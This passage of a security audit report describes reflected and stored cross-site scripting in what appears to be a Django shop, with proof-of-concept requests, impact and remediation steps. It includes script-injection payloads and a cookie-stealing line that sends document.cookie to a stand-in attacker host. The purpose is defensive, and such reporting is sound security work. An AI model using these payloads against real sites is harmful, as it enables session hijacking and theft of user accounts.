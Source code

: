 
### 3.2 Cross-Site Scripting (XSS) - Multiple Instances (High)

**Vulnerability ID**: VULN-002  
**OWASP Category**: A03:2021 – Injection  
**CWE**: CWE-79  
**CVSS Score**: 7.5 (High)  

#### 3.2.1 Reflected XSS

##### Description
Search results are displayed without proper encoding, allowing script injection.

##### Location
- **URL**: `/catalog/?q=[PAYLOAD]`
- **Template**: `catalog.html`, line 26

##### Proof of Concept
```http
GET /catalog/?q=<script>alert('XSS')</script> HTTP/1.1
Host: localhost:8000
```

**Advanced Payload** (Cookie Stealer):
```javascript
<script>new Image().src='http://attacker.com/steal?c='+document.cookie</script>
```

#### 3.2.2 Stored XSS

##### Description
Product reviews are stored and displayed without sanitization.

##### Location
- **Feature**: Product Review System
- **Endpoints**: `/product/<id>/` and `/product/<id>/review/`

##### Proof of Concept
```http
POST /product/1/review/ HTTP/1.1
Host: localhost:8000
Content-Type: application/x-www-form-urlencoded

title=Great+Product&content=<script>alert('Stored+XSS')</script>&rating=5
```

#### Impact
- Session hijacking
- Phishing attacks
- Defacement
- Malware distribution

#### Remediation
1. Enable Django auto-escaping
2. Implement Content Security Policy
3. Use bleach library for input sanitization
4. Validate all user inputs

---